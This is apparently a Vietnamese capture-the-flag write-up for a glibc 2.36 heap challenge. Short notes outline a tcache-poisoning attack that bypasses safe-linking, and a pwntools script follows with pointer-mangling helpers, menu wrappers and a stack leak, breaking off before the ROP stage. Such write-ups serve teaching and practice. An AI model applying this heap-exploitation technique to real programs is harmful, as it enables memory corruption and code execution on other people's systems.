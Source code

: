 - đây là 1 bài heap điển hình với các option add , edit , remove , view 

- có 1 điểm đặc biệt ở đây là nó sẽ dùng phiên bản libc 2.36 ( sẽ không lấy shell bằng hook và thêm 1 safe-linking) , ta có thể đọc nó ở đây https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation

- hơn nữa nó cũng chẳng filter điều kiện nhiều nên ta có thể leak mọi thứ 1 cách dễ dàng (libc , stack ) , ở đây ta sẽ dùng ```tcache_poisioning``` để lấy shell , leak libc và stack  , sau đó dùng edit để thay đổi fd của tcache_entry thành ```save_rbp``` , tiếp tục malloc và ```rop```
- 1 điều mà mình chưa hiểu là tại sao nó lại là ```heap_base>>12 ^ (target)``` chứ không phải là ```ptr>>12^(target)```  , địa chỉ cũng cần đảm bảo chia hết cho 16



script 

```python

#!/usr/bin/env python3

from pwn import *

exe = ELF("./hateful2_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

p = process()

def defuscate(x,l=64):
    p = 0
    for i in range(l*4,0,-4): # 16 nibble
        v1 = (x & (0xf << i )) >> i
        v2 = (p & (0xf << i+12 )) >> i+12
        p |= (v1 ^ v2) << i
    return p

def obfuscate(p, adr):
    return p^(adr>>12)

def add(idx,size,data):
    p.sendlineafter(b'>> ',b'1')
    p.sendlineafter(b'Message Index: ',f'{idx}'.encode())
    p.sendlineafter(b'Message Size: ',f'{size}'.encode())
    p.sendafter(b'>> ',data)
def edit(idx,data):
    p.sendlineafter(b'>> ',b'2')
    p.sendlineafter(b'Message Index: ',f'{idx}'.encode())
    p.sendafter(b'>> ',data)
def view(idx):
    p.sendlineafter(b'>> ',b'3')
    p.sendlineafter(b'Message Index: ',f'{idx}'.encode())
def delete(idx):
    p.sendlineafter(b'>> ',b'4')
    p.sendlineafter(b'Message Index: ',f'{idx}'.encode())
#input()

#leak stack
p.sendlineafter(b'>> ',b'0')
p.recvuntil(b'You can send up to ')
leak = p.recvuntil(b'Messages')[:-1].split(b' ')
leak_stack = int(leak[0])
print(hex(leak_stack))
ret_address = leak_stack + 0xc
log.info(f'ret address: {hex(ret_address)}')
```